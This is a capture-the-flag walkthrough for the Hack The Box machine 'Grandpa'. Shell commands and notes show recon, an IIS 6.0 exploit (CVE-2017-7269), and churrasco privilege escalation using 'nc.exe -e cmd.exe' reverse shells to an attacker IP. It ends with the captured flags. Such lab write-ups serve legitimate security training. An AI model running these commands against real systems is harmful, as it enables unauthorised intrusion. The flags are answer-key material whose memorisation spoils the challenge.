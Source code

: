# Grandpa - Easy

```shell
sudo vim /etc/hosts
#add grandpa.htb

nmap -T4 -p- -A -Pn -v grandpa.htb

gobuster dir -u http://grandpa.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

searchsploit microsoft iis 6.0
#we get exploits

nc -nvlp 4444

#run exploit
python cve-2017-7269.py grandpa.htb 80 10.10.14.4 4444

#this gives reverse shell
whoami

systeminfo
#copy output to file in attacker machine

#in attacker machine
vim sysinfo
#paste systeminfo

python2 windows-exploit-suggester.py --database 2022-11-13-mssb.xls --systeminfo sysinfo.txt

#in victim machine
#check privileges
whoami /priv

#churrasco exploit
#for file transfer

#in attacker machine
smbserver.py share .

#in victim machine
cd C:\Windows\Temp

copy \\10.10.14.4\share\nc.exe nc.exe

copy \\10.10.14.4\share\churrasco.exe ch.exe

#setup listener
nc -nvlp 5555

#run exploit
.\ch.exe -d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.4 5555"

#this gives reverse shell
whoami
#system user
#flags can be found in "Documents and Settings"
```

* Open ports & services:

  * 80 - Microsoft IIS httpd 6.0

* The webpage shows that it is 'Under Construction', so we can check for other directories.

* However, checking for other directories does not work as well because we get the message 'Directory Listing Denied'.

* So, we can use ```searchsploit``` to check for any exploits for ```Micrsoft IIS 6.0```, and we get many exploits.

* Googling gives similar results for CVE-2017-7269.

* On running the exploit, we get a reverse shell on our listener as 'network service' user.

* We can use ```windows-exploit-suggester``` to check for vulnerabilities.

* We can also check ```whoami /priv``` for privileges - this shows ```SeChangeNotify``` and ```SeImpersonate``` are enabled.

* Googling for 'windows server 2003 seimpersonateprivilege' give us results related to "token kidnapping" privesc exploits.

* This leads us to ```churrasco``` exploit; we can download the required files.

* Now, we need to transfer 'churrasco.exe' and 'nc.exe' (x86 system) to victim machine; this can be done using ```smbserver.py```

* Once we share both files, we can simply setup listener and run exploit to get shell as system user.

```markdown
1. User flag - bdff5ec67c3cff017f2bedc146a5d869

2. Root flag - 9359e905a2c35f861f6a57cecf28bb7b
```
